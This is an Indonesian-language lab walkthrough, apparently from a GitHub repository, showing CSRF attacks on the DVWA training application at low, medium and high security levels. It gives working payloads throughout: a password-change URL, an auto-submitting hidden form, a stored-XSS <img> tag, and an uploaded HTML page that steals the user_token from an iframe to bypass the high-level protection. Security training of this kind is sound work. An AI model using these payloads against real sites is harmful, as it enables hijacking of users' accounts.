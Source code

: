 # CSRF
Cross-site request forgery (CSRF) atau Pemalsuan permintaan lintas situs adalah celah keamanan web yang memungkinkan penyerang membujuk pengguna untuk melakukan tindakan yang tidak ingin mereka lakukan.

## Security Low
Mengganti password pengguna menjadi **test** lewat link
```sh
http://<IP_Server>/DVWA/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

Mengganti password pengguna menjadi **test123** lewat halaman palsu (phising). Silahkan Edit dan simpan kode dibawah ini dengan **nama_file.html**
```sh
<html>
    <body>
        <form action="http://<IP_Server>/DVWA/vulnerabilities/csrf" method="GET">
            <input type="hidden" name="password_new" value="test123" />
            <input type="hidden" name="password_conf" value="test123" />
            <input type="hidden" name="Change" value="Change" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%204.JPG)

## Security Medium (XSRF)
- Serangan ini akan menggabungkan 2 teknik yaitu CSRF dan XSS Stored
- Pindah ke halaman XSS (Stored) dengan **Security Low** lalu ubah maxlength pada **textarea** dari 50 menjadi 500 karakter melalui inspect element

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2017.JPG)

- Masukkan script dibawah ini ke field **Message** lalu klik tombol **Sign Guestbook** untuk menjalankan
```sh
<img src="/DVWA/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change">
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2042.JPG)

## Security High
- Serangan ini akan memanfaatkan celah keamanan file upload kemudian melakukan by pass terhadap parameter **user_token** untuk mengeksekusi CSRF
- Simpan script dibawah ini dengan format **nama_file.html**
```sh
<html>
    <body>
	   <h3>CSRF HIGH LEVEL</h3>
       <iframe id="myFrame" src="http://<IP_Server>/DVWA/vulnerabilities/csrf" style="visibility: hidden;" onload="maliciousPayload()"></iframe>
       <script>
         function maliciousPayload() {
            console.log("start");
            var iframe = document.getElementById("myFrame");
            var doc = iframe.contentDocument  || iframe.contentWindow.document;
            var token = doc.getElementsByName("user_token")[0].value;
            const http = new XMLHttpRequest();
            const url = "http://<IP_Server>/DVWA/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change&user_token="+token+"#";
            http.open("GET", url);
            http.send();
            console.log("password changed");
         }
       </script>
    </body>
</html>
```
- Pindah ke halaman File Upload dengan **Security Low** dan upload file html diatas

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2043.JPG)

- Ubah ke **Security High** dan buka halaman CSRF
- Buka file HTML yang sudah diupload untuk mengubah password user menjadi **hacker** sesuai file HTML diatas
```sh
http://<IP_Server>/DVWA/hackable/uploads/<nama_file>.html
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2044.JPG)